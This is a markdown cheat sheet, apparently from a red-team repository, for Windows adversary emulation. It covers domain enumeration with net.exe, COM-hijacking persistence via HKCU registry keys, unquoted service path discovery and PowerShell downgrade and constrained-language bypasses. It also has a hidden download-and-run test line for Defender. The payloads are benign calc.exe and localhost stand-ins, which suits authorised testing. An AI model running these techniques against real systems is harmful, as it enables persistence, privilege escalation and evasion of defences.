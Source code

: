# **Adversary Emulation Test**

# **Table Of Contents:**
<!--ts-->
  * [Initial Access](#initial-access)
  * [Host Enumeration](#host-enumeration)
  * [Domain Enumeration](#domain-enumeration)
    * [User Enumeration](#user-enumeration)
      * [All User Accounts with Admin in Name](#all-user-accounts-with-admin-in-name)
    * [Group Enumeration](#group-enumeration)
  * [Execution](#execution)
    * [PowerShell NET Assembly](#powershell-net-assembly)
  * [Persistence](#persistence)
    * [COM Hijacking](#com-hijacking)
    * [DLL Hijacking](#dll-hijacking)
  * [Privilege Escalation](#privilege-escalation)
    * [Unquoted Service Path](#unquoted-service-path)
  * [Lateral Movement](#lateral-movement)
  * [Exfiltration](#exfiltration)
  * [Misc](#misc)
    * [PowerShell](#powershell)
      * [PowerShell Downgrade](#powershell-downgrade)
      * [Constrained Language Mode](#constrained-language-mode)
      * [AMSI Bypass](#amsi-bypass)
<!--te-->

# **Domain Enumeration**

## **User Enumeration**

### **Get All Domain Users**

```
net.exe user /DOMAIN
```

### **All User Accounts with Admin in Name**

```
net.exe user /DOMAIN | Select-String -SimpleMatch "admin"
```

### **Enumerate A Specific Admin User**

```
net.exe user <username> /DOMAIN | FL -Property *
```

## **Group Enumeration**

### **Enumerate All Domain Groups**

```
net.exe groupv /DOMAIN
```

### **Enumerate Groups with *Admin* in Name**

```
net.exe group /DOMAIN | Select-String -SimpleMatch "admin"
```

# **Execution**

## **PowerShell NET Assembly**

### **Execute *calc.exe* Using NET Assembly Method**

```
# No-download method (calc.exe already exists on system)
[System.Diagnostics.Process]::Start("calc.exe")
```

# **Persistence**

## **COM Hijacking**

**NOTE:**

For COM Hijacks you need a DLL to point to to execute. I created a DLL that runs *C:\Windows\System32\calc.exe* which you can use during the test and placed it in this GitHub Repo.

### **Enumerating COM Hijack Opportunities with ProcMon**

![image](https://github.com/user-attachments/assets/3d79926f-0854-4130-9dfb-47416b5248d3)


### **Enumerating Scheduled Tasks That Call COM Objects**

```
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks)
{
  if ($Task.Actions.ClassId -ne $null)
  {
    if ($Task.Triggers.Enabled -eq $true)
    {
      if ($Task.Principal.GroupId -eq "Users")
      {
        Write-Host "Task Name: " $Task.TaskName
        Write-Host "Task Path: " $Task.TaskPath
        Write-Host "CLSID: " $Task.Actions.ClassId
        Write-Host
      }
    }
  }
}
```

### **Creating New InprocServer32 Registry Key/Value Pair**

```
# Create New CLSID Registry Key in HKCU where it was not defined
New-Item -Path "HKCU:\Software\Classes\CLSID" -Name "{<CLISD-ID>}"

# Set the InprocServer32 Key to point to your DLL
New-Item -Path "HKCU:\Software\Classes\CLSID\{<CLISD-ID>}" -Name "InprocServer32" -Value "<Path-To-DLL>"

# Set threading to where this DLL gets executed on any COM object calls for this CLSID
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{<CLISD-ID>}\InprocServer32" -Name "ThreadingModel" -Value "Both"

# Valid COM Object Registry properly set
Get-Item -Path "HKCU:\Software\Classes\CLSID\{<CLISD-ID>}\InprocServer32"

# Clean Up
Remove-Item "HKCU:\Software\Classes\CLSID\{<CLSID-ID>}" -Recurse
```

### **Common COM Objects to Target**

```
# TODO
```

# **Privilege Escalation**

## **Unquoted Service Path**

### **Enumeration of Unquoted Service Paths**

```
# Get all Serices
$services = Get-WmiObject -Class Win32_Service | Select-Object Name, PathName

# Pull out the service executable paths
$paths = $services.PathName

# Get Paths with Spaces
$vulnerable_paths = @()

foreach ($path in $paths)
{
    $executable = "$($($path -split '\.exe')[0])" + ".exe"
    if ($executable -contains " " -and -not $executable -contains "`"")
    {
        $vulnerable_paths += $executable
    } 
}

$vulnerable_paths
```

# **Misc**

## **Defender For Endpoint Test Detection**

```
powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference = 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-MDATP-test\\invoice.exe');Start-Process 'C:\\test-MDATP-test\\invoice.exe'
```

## **PowerShell**

### **PowerShell Downgrade**

```
# Test command before downgrade
echo "Mimikatz"

# Downgrade PowerShell to Version 2 which has less protections
powershell -version 2

# Test command after downgrade
echo "Mimikatz"
```

### **Constrained Language Mode**

#### **Detecting Constrained Language Mode**

```
$ExecutionContext.SessionState.LanguageMode
```

### **Circumvent Constrained Language Mode**

You can try the PowerShell downgrade attack mentioned above which should get you into a session with FullLanguage Mode

#### **System32 Bypass**

Create *test.ps1*

```
# Contents of test.ps1
$ExecutionContext.SessionState.LanguageMode
```

Run the following command:

```
# There is a bypass where if the string *System32* is in the path of the script it will gain FullLanguag Mode

.\test.ps1; mv .\test.ps1 system32.ps1; .\system32.ps1
```
